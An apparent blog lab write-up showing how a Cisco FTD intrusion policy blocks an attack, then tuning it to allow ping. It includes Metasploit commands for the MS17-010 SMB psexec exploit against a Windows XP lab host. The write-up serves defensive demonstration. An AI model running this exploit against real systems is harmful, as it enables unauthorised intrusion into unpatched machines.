```yaml
---
title: Cisco FTD Intrusion Policy
date: 2025-06-30 10:30:00 +0700
categories: [Security, Cisco Firepower Threat Defense (FTD)]
tags: [FTD]
---
```


Cisco FTD (Firepower Threat Defense) intrusion policy is a set of rules and configurations used to detect and prevent network intrusions by inspecting traffic for known threats and anomalies. It leverages Snort-based signatures and provides customizable protection levels, allowing administrators to balance security and performance based on their environment.

<br>

## Hacking

In this lab we will do some lightweight hacking to prove that FTD's IPS can block this attack, here we have the victim box which is a Windows XP on the inside network

![x](/static/2025-06-30-ftd-ips/00.png)

<br>

On the FTD side, right now we only have an 'Allow All' policy with no IPS/IDS enabled

![x](/static/2025-06-30-ftd-ips/01.png)

<br>

On the outside network, we have a Kali Linux that we use to penetrate the Windows XP. Here we run a Metasploit to exploit vulnerability on SMB

```
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 10.71.0.23
set LHOST 172.17.1.24
exploit
```

![x](/static/2025-06-30-ftd-ips/02.png)

<br>

And we have successfully hacked the box

![x](/static/2025-06-30-ftd-ips/02a.png)

<br>

## Configuring IPS

To prevent this attack, we will configure an Intrusion Prevention Policy on FTD

![x](/static/2025-06-30-ftd-ips/03.png)

<br>

The IPS Policy works by comparing network traffic against a database of known threat patterns, called signatures. In this specific Base Policy we can see that exploit agains Windows Box are already predefined and will be used once the attack happens

![x](/static/2025-06-30-ftd-ips/04.png)

<br>

On Summary, we can see this type of signature contains almost 10,000 signatures used to detect any attack or exploit

![x](/static/2025-06-30-ftd-ips/05.png)

<br>

Now we can use the Intrusion Policy inside a Policy Rule

![x](/static/2025-06-30-ftd-ips/06.png)

<br>

After IPS is set up, if we try to run the exploit again, we will get a Timeout Error

![x](/static/2025-06-30-ftd-ips/07.png)

<br>

On Connection Events, we see the attack was detected and blocked

![x](/static/2025-06-30-ftd-ips/08.png)

<br>

We can also see the deatils of the attack on the Intrusion Events

![x](/static/2025-06-30-ftd-ips/09a.png)

![x](/static/2025-06-30-ftd-ips/10.png)

<br>

## Tuning the Intrusion Policy

Before we used Balance IPS Base Policy, now lets try using the Maximum Detection

![x](/static/2025-06-30-ftd-ips/11.png)

<br>

The difference is, instead of having almost 10,000 active rules, now it has over 40,000

![x](/static/2025-06-30-ftd-ips/12.png)

<br>

This will obviously lead to more traffic getting blocked, the example being PING is now no longer allowed

![x](/static/2025-06-30-ftd-ips/13.png)

![x](/static/2025-06-30-ftd-ips/14.png)

<br>

We can tune this further by adjusting the detection as we need, here we'll override the ICMP block so PING is no longer blocked

![x](/static/2025-06-30-ftd-ips/15.png)

![x](/static/2025-06-30-ftd-ips/16.png)

<br>

And now PING is allowed again

![x](/static/2025-06-30-ftd-ips/17.png)

<br>



